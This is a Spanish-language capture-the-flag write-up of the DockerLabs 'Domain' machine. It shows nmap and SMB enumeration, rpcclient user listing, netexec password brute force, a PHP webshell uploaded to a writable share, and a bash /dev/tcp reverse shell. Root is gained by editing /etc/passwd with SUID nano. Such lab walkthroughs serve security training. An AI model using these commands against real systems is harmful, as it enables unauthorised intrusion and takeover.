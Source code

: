 
# Writeup de la máquina Domain realizado por Daniel Damota

<p align="center">
  <img src="Imagenes/0.png" alt="pyred"/>
</p>

## Información General

- **Plataforma**: [DockerLabs](https://dockerlabs.es/)
- **Nivel de Dificultad**: Medio
- **Sistema Operativo Detectado**: Linux
- **Fecha de Ejecución**: 04/03/2025
- **Metodología**: Enumeración → Explotación → Escalada de Privilegios

## Técnicas utilizadas

- Fuga de nombres de usuario SMB con Rpcclient

- Fuerza bruta a SMB con Netexec

- Abusar de permisos mal configurados en SMB para subir un archivo PHP malicioso

- Abusar de un binario SUID (Nano) [Escalada de privilegios a root]

---

## 1. Reconocimiento y Enumeración

Comprobamos si la máquina está activa mediante el envío de un paquete ICMP y por el TTL que es igual a 64, reconocemos que es una máquina Linux:

```
ping -c 1 <IP>
```

![Ping](Imagenes/1.png)

Realizamos un primer escaneo con nmap para conocer los puertos abiertos de la máquina y volcamos el resultado en un archivo en formato "grepeable" para realizar un tratamiento mediante expresiones regulares (regex):

```
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n <IP> -oG allPorts
```

![nmap1](Imagenes/2.png)

Usando una función en bash, extraemos la información mas relevante de la captura grepeable y copiamos los puertos abiertos a la clipboard mediante xclip. La función previamente defina es la siguiente:

```
# Extract nmap information:
function extractPorts(){
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{prin>
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{>
        echo -e "\n[*] Extracting information...\n" > extractP>
        echo -e "\t[*] IP Address: $ip_address"  >> extractPor>
        echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.>
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n"  >> extractP>
        cat extractPorts.tmp; rm extractPorts.tmp      
}
```

![extractPorts](Imagenes/3.png)

Ahora realizamos un escaneo mas exhaustivo de los puertos:

```
nmap -sCV -p<PUERTOS> <IP> -oN targeted
```

![nmap2](Imagenes/4.png)

Si accedemos al servicio web nos encontramos con lo siguiente:

```
http://<IP>
```
![http](Imagenes/5.png)

Si realizamos una enumeración web con gobuster no encontraremos nada:

Búsqueda de ficheros php,pdf,html o txt:

![http](Imagenes/6.png)

Búsqueda de directorios:

![http](Imagenes/7.png)

Búsqueda de subdominios:

![http](Imagenes/8.png)

Como no encontramos nada por http, vamos a intentar conseguir el acceso por el servicio de samba:

```
smbclient -L //<IP> -N
```

![http](Imagenes/9.png)

Como podemos observar, tenemos la capacidad de ver ciertos recursos compartidos a nivel de red sin credenciales, podemos intentar conseguir más detalles con netexec o smbmap, sin embargo no veremos nada nuevo:

```
netexec smb <IP> --shares
```

```
smbmap -H <IP>
```

![http](Imagenes/10.png)

![http](Imagenes/11.png)

Vamos a intentar enumerar usuarios con rpcclient (rpcclient es una herramienta de línea de comandos en Kali Linux que permite enumerar usuarios, grupos, recursos compartidos y otros datos de Samba.):

```
rpcclient -U '' -N <IP>
```

```
querydispinfo and enumdomusers
```

![http](Imagenes/12.png)

## 2. Explotación

Ahora teniendo usuarios podemos realizar un ataque de fuerza bruta con mayor facilidad:

```
netexec smb <IP> -u 'bob' -p '/usr/share/wordlists/rockyou.txt' --ignore-pw-decoding
```

![http](Imagenes/13.png)

```
netexec smb <IP> -u 'james' -p '/usr/share/wordlists/rockyou.txt' --ignore-pw-decoding
```

![http](Imagenes/14.png)


Teniendo las credenciales de bob, vamos a ver que permisos tenemos usando smbmap:

```
smbmap -H <IP> -u 'bob' -p 'star'
```

![http](Imagenes/15.png)

Si enumeramos el contenido del directorio html veremos que es donde se encuentra el index.html del servicio http:

```
smbmap -H <IP> -u 'bob' -p 'star' -r html
```

![http](Imagenes/16.png)

Viendo que tenemos permisos de escritura, vamos a subir un archivo php malicioso, así que creamos el archivo php:

![http](Imagenes/17.png)

Ahora subimos el archivo con smbclient:

```
smbclient //172.17.0.2/html -U bob%star -c 'put cmd.php'
```

![http](Imagenes/18.png)

Probamos a ejecutar comandos a través del servicio http:

![http](Imagenes/19.png)

Viendo que tenemos ejecución remota de comandos, vamos a enviarnos una shell (tenemos que estar en escucha con netcat):

```
netcat -lvnp 443
```

```
bash -c "bash -i >%26 /dev/tcp/<IP>/<PUERTO> 0>%261"
```

![http](Imagenes/20.png)

![http](Imagenes/21.png)

Realizamos un tratamiento de la tty para mayor comodidad con la shell:

```
script /dev/null -c bash
```
```
ctrl + z
```
```
stty raw -echo; fg
```

```
reset xterm
```

```
export TERM=xterm
```

![http](Imagenes/22.png)

Ahora cambiamos el tamaño de filas y columnas de la tty, en una terminal de nuestra máquina atacante ponemos el siguiente comando:

```
stty size
```

![http](Imagenes/23.png)

Y en la máquina víctima hacemos lo siguiente:

```
stty rows <filas> columns <columnas>
```

![http](Imagenes/24.png)


## 3. Escalada

Ahora que hemos conseguido el acceso, nuestro objetivo es convertirnos en el usuario root mediante una escalada de privilegios. 

Como primera enumeración vamos a ver los permisos asignados a nivel de sudoers:

```
sudo -l
```

![http](Imagenes/25.png)


Después buscamos por ficheros con permisos SUID:

```
find / -perm -4000 2>/dev/null
```

![http](Imagenes/26.png)

Vemos que nano tiene permisos SUID, por lo que podemos usarlo para escalar privilegios modificando el /etc/passwd:

```
nano /etc/passwd
```

![http](Imagenes/27.png)

Quitamos la x de la linea de root:

![http](Imagenes/28.png)

Accedemos como root:

```
su root
```

![http](Imagenes/29.png)
